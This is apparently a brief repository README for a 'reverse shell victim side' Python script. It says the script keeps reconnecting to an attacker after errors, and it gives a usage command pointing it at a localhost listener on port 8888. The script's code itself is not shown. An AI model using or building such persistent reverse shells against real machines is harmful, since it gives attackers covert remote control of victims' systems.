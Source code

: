 # Reverse shell victim side scripts

**[ex-rs-v-000001.py](ex-rs-v-000001/ex-rs-v-000001.py)**: This script reconnects to the attacker even after an error. This script also tries reconnecting even if the attacker is not present.

**Usage**

    python3 rs-v-000001.py -i 127.0.0.1 -p 8888
